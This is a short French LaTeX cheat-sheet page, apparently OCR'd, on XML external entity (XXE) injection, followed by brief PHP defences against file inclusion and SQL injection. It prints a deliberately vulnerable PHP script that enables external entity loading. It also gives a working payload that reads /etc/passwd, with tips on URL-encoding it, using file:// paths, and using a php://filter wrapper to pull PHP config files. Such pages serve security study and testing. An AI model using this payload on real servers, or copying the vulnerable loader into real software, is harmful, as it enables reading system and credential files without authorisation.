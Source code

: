 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}
\item Injection XML - Afficher le contenu de /etc/passwd:
\begin{lstlisting}[style=php]
<?php
    libxml_disable_entity_loader(false);
    $xmlfile = $_GET["xml"];

    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;

    echo "You have logged in as user $user";
?>
\end{lstlisting}
Fichier XML (le fichier php se trouve dans /var/www/html, d'où le ../../..):
\begin{example} \begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "../../../etc/passwd">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
\end{verbatim} \end{example}
\textbf{Remarques}:
\begin{itemize}
    \item il faut encoder le payload au format url (\url{https://www.url-encode-decode.com/})
    \item on peut aussi utilise ce chemin: \texttt{file:///etc/passwd}
    \item pour des fichiers php, on utilise: \texttt{php://filter/convert.base64-encode/resource=<config>.php}
    \item aller sur le lien: \texttt{http://<site>/<page>?wml=<payload>}
\end{itemize}


\item Protections:
\begin{example} \begin{itemize}

\item File Inclusion - Utiliser une whitelist des fichiers qui peuvent être inclus.
\begin{lstlisting}[style=php]
if ($file != "file1.php" && $file != "file2.php") {
    // print error
    exit;
}
\end{lstlisting}

\item SQL Injection - Vérifier les inputs.
\begin{lstlisting}[style=php]
if( !is_numeric($id) ) {
    // print error
    exit;
}
\end{lstlisting}


\end{itemize}
\end{example}
\end{itemize}
\end{document}
